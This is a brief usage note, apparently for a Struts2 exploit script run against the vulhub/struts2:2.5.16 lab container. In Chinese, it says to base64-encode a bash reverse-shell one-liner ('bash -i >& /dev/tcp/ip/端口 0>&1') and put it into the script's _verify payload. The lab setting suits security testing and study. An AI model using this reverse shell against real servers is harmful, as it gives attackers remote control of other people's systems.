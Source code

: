 docker pull vulhub/struts2:2.5.16

弹shell地址改下_verify的data2中base64编码的那串

改成bash -i >& /dev/tcp/ip/端口 0>&1的base64编码